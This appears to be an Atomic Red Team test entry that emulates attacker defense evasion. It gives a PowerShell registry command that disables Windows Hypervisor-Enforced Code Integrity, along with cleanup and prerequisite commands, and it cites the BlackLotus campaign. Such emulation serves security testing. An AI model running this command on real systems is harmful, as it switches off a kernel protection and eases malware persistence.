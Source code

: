 <br/>
<br/>

## Atomic Test #43 - Disable Hypervisor-Enforced Code Integrity (HVCI)
This test disables Hypervisor-Enforced Code Integrity (HVCI) by setting the registry key HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity "Enabled" value to "0".
The pre-req needs to be ran in order to setup HVCI and have it enabled. 
We do not recommend running this in production.
[Black Lotus Campaign](https://www.microsoft.com/en-us/security/blog/2023/04/11/guidance-for-investigating-attacks-using-cve-2022-21894-the-blacklotus-campaign/)
[Microsoft](https://learn.microsoft.com/en-us/windows/security/threat-protection/device-guard/enable-virtualization-based-protection-of-code-integrity)

**Supported Platforms:** Windows


**auto_generated_guid:** 70bd71e6-eba4-4e00-92f7-617911dbe020






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```powershell
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" /f
```



#### Dependencies:  Run with `powershell`!
##### Description: HVCI must be enabled
##### Check Prereq Commands:
```powershell
if (((cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" 2> nul | findstr EnableVirtualizationBasedSecurity 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" 2> nul | findstr RequirePlatformSecurityFeatures 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" 2> nul | findstr Locked 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" 2> nul | findstr Enabled 2> nul") -and (cmd.exe /c "reg query "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" 2> nul | findstr Locked 2> nul"))) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "EnableVirtualizationBasedSecurity" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "RequirePlatformSecurityFeatures" /t REG_DWORD /d 1 /f
```